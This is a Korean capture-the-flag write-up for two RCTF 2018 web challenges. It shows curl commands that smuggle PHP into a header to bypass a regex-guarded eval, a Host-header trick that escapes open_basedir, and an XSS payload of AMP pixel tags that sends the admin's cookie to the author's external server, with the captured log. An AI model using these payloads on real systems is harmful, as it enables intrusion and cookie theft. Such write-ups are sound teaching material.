 ```yaml
---
title: RCTF 2018 Quals
description: RCTF 2018 Quals Challenge writeup
categories:
 - writeup
tags:
 - web
 - open_basedir
 - eval
 - pwn
 - 
---
```


> RCTF 2018 Quals
>
> Web + Pwnable writeup
>
> written by korean. 

<!-- more --> 

## Introduce

뭔가 요즘 xctf 플랫폼을 많이 사용하는 것 같다.

## writeup

### - r-cursive

> LUL dat font
>
> http://r-cursive.ml

문제에 접속하면 단순히 sandbox를 생성해주는 페이지에 접속한다.~~(폰트가 정말 거지같다.)~~

```html
<?php
$token = sha1($_SERVER['REMOTE_ADDR']);
$dir = '../sandbox/'.$token.'/';
is_dir($dir) ?: mkdir($dir);
is_file($dir.'index.php') ?: file_put_contents($dir.'index.php', str_replace('#SHA1#', $token, file_get_contents('./template')));
switch($_GET['action'] ?: ''){
    case 'go':
        header('Location: http://'.$token.'.sandbox.r-cursive.ml:1337/');
        break;
    case 'reset':
        system('rm -rf '.$dir);
        break;
    default:
        show_source(__FILE__);
}
?>
<style>code{font-family: Segoe Script, Brush Script MT, cursive; font-size: 1.337em;}</style>
```

action=go를 통해 sandbox페이지로 이동해보면 소스코드는 간단하다.

```html
<?php
sha1($_SERVER['REMOTE_ADDR']) === 'c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295' ?: die();
';' === preg_replace('/[^\W_]+\((?R)?\)/', NULL, $_GET['cmd']) ? eval($_GET['cmd']) : show_source(__FILE__);
```

cmd뒤에 명령어를 삽입해주면 되는데, 정규식으로 인해 쿼리는 `phpinfo();`, `print_r(scandir(getcwd()));` 와 같은 형태로 함수로만 넣을 수 있다.

하지만 이 문제는 `open_basedir`이 적용되어 있어, `/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/`,`/tmp/` 외의 디렉토리는 사용할 수 없다.

disable_functions, disable_classes를 보기위해 `phpinfo()` 를 실행시켰는데, 다른 것 또한 발견하였다.

```ini
disable_functions = system,shell_exec,passthru,exec,popen,proc_open,pcntl_exec,mail,putenv,apache_setenv,mb_send_mail,assert,dl,set_time_limit,ignore_user_abort,symlink,link	
disable_clsass = GlobIterator,DirectoryIterator,FilesystemIterator,RecursiveDirectoryIterator	
auto_prepend_file = /var/www/sandbox/init.php
open_basedir = /var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/	
Loaded Modules = ... mod_vhost_alias
```

우선 정규식을 우회하기 위해 `getallheaders()`함수를 사용했다.

```
$ curl "http://c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295.sandbox.r-cursive.ml:1337/?cmd=eval(end(getallheaders()));" -H "a:print_r(readfile('../init.php'));print_r(ini_get('open_basedir'));" 
<br />
<b>Warning</b>:  readfile(): open_basedir restriction in effect. File(../init.php) is not within the allowed path(s): (/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/) in <b>/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/index.php(3) : eval()'d code(1) : eval()'d code</b> on line <b>1</b><br />
<br />
<b>Warning</b>:  readfile(../init.php): failed to open stream: Operation not permitted in <b>/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/index.php(3) : eval()'d code(1) : eval()'d code</b> on line <b>1</b><br />
/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/
```

이제 `open_basedir`을 우회하기 위해 header의 host를 `.r-cursive.ml` 로 변경하였고, 이로 인해 sandbox를 탈출하여 init.php를 열었고 플래그를 획득할 수 있었다.

```
$ curl "http://c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295.sandbox.r-cursive.ml:1337/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/?cmd=eval(end(getallheaders()));" -H "a:print_r(readfile('../init.php'));print_r(ini_get('open_basedir'));" -vv -H "Host:.r-cursive.ml"

<?php
    ini_set("open_basedir", $_SERVER['DOCUMENT_ROOT']."/:/tmp/");
    // flag: RCTF{apache_mod_vhost_alias_should_be_configured_correctly}
?>
```

FLAG : RCTF{apache_mod_vhost_alias_should_be_configured_correctly}

### - AMP

> No Description

페이지에 접속하면 steins;gate 0를 배경으로 한 페이지가 나타난다.

```html
<!doctype html>
<html ⚡>
  <head>
    <meta charset="utf-8">
    <script async src="https://cdn.ampproject.org/v0.js" nonce="a42dd51d96f82575cfd2fe674c3bb46e"></script>
    <title>⚡</title>
    <link rel="canonical" href="http://example.ampproject.org/article-metadata.html">
    <meta name="viewport" content="width=device-width,minimum-scale=1,initial-scale=1">
    <script type="application/ld+json" nonce="a42dd51d96f82575cfd2fe674c3bb46e">
      {
        "@context": "http://schema.org",
        "@type": "NewsArticle",
        "headline": "Open-source framework for publishing content",
        "datePublished": "2015-10-07T12:02:41Z",
        "image": [
          "logo.jpg"
        ]
      }
    </script>
    <style amp-boilerplate>body{-webkit-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-moz-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-ms-animation:-amp-start 8s steps(1,end) 0s 1 normal both;animation:-amp-start 8s steps(1,end) 0s 1 normal both}@-webkit-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-moz-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-ms-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-o-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}</style><noscript><style amp-boilerplate>body{-webkit-animation:none;-moz-animation:none;-ms-animation:none;animation:none}</style></noscript>
    <style amp-custom>body {background:url(background.jpg) no-repeat;background-size:cover;}html,body,.main{min-height:100vh;width:100%;color:#fff;}.main{align-items: center;display: flex;justify-content: center; flex-direction: column;}.main *{ zoom: 2;}.grecaptcha-badge{display: none}</style>
  </head>
  <body>
      <div class="main">
        <h1>HEY</h1>
        <h3>INPUT YOUR NAME AFTER QUERYSTRING</h3>
      </div>
  </body>
</html>

```

Querystring에 name을 넣으라고 하니까 넣어보자.

```
http://amp.2018.teamrois.cn/?name=shpik
```

그러면 페이지에 다음과 같은 문구가 추가된다.

```html
Dear shpik:
YOU'RE BEING TRACKING
<!-- OK, I don't care AMP Standard -->
<!-- It just wastes my time. -->
[STOP TRACKING ME]
```

..?  `STOP TRACKING ME` 를 누르면 뭔가 admin이 이 페이지를 읽는 것 같다.

그 외에 스크립트 또한 삽입이 잘 되는 걸로 봐서 `Reflect XSS` 인 모양이다. 

`AMP`라는 `javascript` 모듈을 사용하는 것 같아서 찾아보았고, 다음의 정보를 찾았다.([AMP Project](https://github.com/ampproject/amphtml/blob/master/spec/amp-var-substitutions.md#client-id))

> #### Client ID
>
> Provides a per document-source-origin (the origin of the website where you publish your AMP doc) and user identifier. The client ID will be the same for the same user if they visit again within one year. The client ID should behave roughly similar to a cookie storing a session ID for one year. If the AMP document is not served through the Google AMP Cache, the client ID is replaced with a cookie of the name of the `cid scope` argument (see below). If it is not present, a cookie will be set with the same name. These cookies will always have the prefix "amp-" followed by a random base64 encoded string.
>
> - **platform variable**: `CLIENT_ID`
>
>   - Example: 
>
>   ```
>   <amp-pixel src="https://foo.com/pixel?cid=CLIENT_ID(cid-scope-cookie-fallback-name)"></amp-pixel>
>   
>   <amp-user-notification
>       layout=nodisplay
>       id="user-consent"
>       data-show-if-href="https://foo.com/api/show"
>       data-dismiss-href="https://foo.com/api/dismissed">
>       This site uses cookies to personalize content.
>       <a href="">Learn more.</a>
>      <button on="tap:user-consent.dismiss">I accept</button>
>   </amp-user-notification>
>   
>   <!-- Client ID is not provided until `user-consent` is dismissed -->
>   <amp-pixel src="https://foo.com/pixel?cid=CLIENT_ID(cid-scope-cookie-fallback-name,user-consent)"></amp-pixel>
>   ```
>
> - **amp-analytics variable**: `${clientId}`
>
>   - Example usage: `${clientId(foo)}`
>   - Example value: `U6XEpUs3yaeQyR2DKATQH1pTZ6kg140fvuLbtl5nynbUWtIodJxP5TEIYBic4qcV`

저기에 있는 `Example` 을 그냥 가져다 써도 될 것 같다.

```html
<amp-pixel src="https://35.200.67.206:10101/?cid=CLIENT_ID(FLAG)"></amp-pixel>
<amp-user-notification layout=nodisplay id="FLAG" data-show-if-href="https://35.200.67.206:10101" data-dismiss-href="https://35.200.67.206:10101">This site uses cookies to personalize content.<a href="">Learn more.</a><button on="tap:user-consent.dismiss">I accept</button></amp-user-notification>
<amp-pixel src="https://35.200.67.206:10101/?cid=CLIENT_ID(FLAG,FLAG)"></amp-pixel>
```

위의 코드를 name으로 넣어주었으며, FLAG를 얻을 수 있었다.

```
58.76.163.238 - - [22/May/2018 15:30:23] "GET /?cid=flag_is_in_admin_cookie HTTP/1.1" 200 -
58.76.163.238 - - [22/May/2018 15:30:23] "GET /?cid= HTTP/1.1" 200 -
58.76.163.238 - - [22/May/2018 15:30:24] "GET /?cid=RCTF%7BEl_PsY_CONGRO0_sg0%7D HTTP/1.1" 200 -
58.76.163.238 - - [22/May/2018 15:30:24] "GET /?cid= HTTP/1.1" 200 - 
```

FLAG : RCTF{El_PsY_CONGRO0_sg0}